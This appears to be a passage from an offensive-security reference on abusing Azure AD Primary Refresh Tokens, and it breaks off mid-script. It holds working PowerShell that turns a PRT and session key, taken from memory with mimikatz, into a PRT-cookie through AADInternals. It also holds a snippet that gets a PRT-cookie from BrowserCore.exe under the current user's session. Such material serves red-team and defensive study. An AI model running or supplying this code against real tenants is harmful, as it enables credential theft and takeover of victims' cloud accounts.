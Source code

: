```
# Source: https://o365blog.com/post/prt/

# Install-Module AADInternals

Import-Module AADInternals

# PRT and clear-text session key from mimikatz outputs (sekurlsa::cloudap for the PRT + dpapi::cloudapkd /unprotect for the session key).
$PRT_B64 = "<PRT_TOKEN>"
$SessionKey = "<SESSION_KEY>"

# Adds padding if necessary to the PRT.
while($PRT_B64.Length % 4) {$PRT_B64 += "="}

# Converts the PRT from Base 64.
$PRT = [text.encoding]::UTF8.GetString([convert]::FromBase64String($PRT_B64))

# Converts to byte array and base 64 encode the session key.
$SessionKey_B64 = [convert]::ToBase64String([byte[]] ($SessionKey -replace '..', '0x$&,' -split ',' -ne ''))

# Generate a new PRT-Cookie with nonce.
$prtToken = New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SessionKey_B64 -GetNonce

Write-Host "PRT-cookie (for example for x-ms-RefreshTokenCredential): " $prtToken

$prtToken | Set-Clipboard
```

###### PRT-cookie request through the built-in browsercore.exe utility

As discovered by [@_dirkjan](https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/) and [Lee Christensen](https://posts.specterops.io/requesting-azure-ad-request-tokens-on-azure-ad-joined-machines-for-browser-sso-2b0409caad30), the built-in
`browsercore.exe` utility is leveraged by the Microsoft Edge and Chrome (though
a specific extension) webbrowsers to implement Azure SSO by generating a
`PRT-cookie` using a `PRT`. Simply put, a nonce is given to the
`BrowserCore.exe` process's `stdin` and a response containing a token can be
retrieved from the process `stdout`.

The following code-snippet, adapted from
[`AADInternals`'s `Get-UserPRTToken`](https://github.com/Gerenios/AADInternals/blob/master/PRT.ps1)
can be used to retrieve a `PRT-cookie` using the current user security context
and `PRT`.

```
# Retrieves the required nonce.
$response = Invoke-RestMethod -UseBasicParsing -Method Post -Uri "https://login.microsoftonline.com/Common/oauth2/token" -Body "grant_type=srv_challenge"
$nonce = $response.Nonce

$request_body = @"
{
  "method":"GetCookies",
  "uri":"https://login.microsoftonline.com/common/oauth2/authorize?sso_nonce=$nonce",
  "sender":"https://login.microsoftonline.com"
}
"@

# Other possible location: "$($env:windir)\BrowserCore\browsercore.exe"
$browsercorepath = "$($env:ProgramFiles)\Windows Security\BrowserCore\browsercore.exe"

# Creates the BrowserCore process.
$p = New-Object System.Diagnostics.Process
```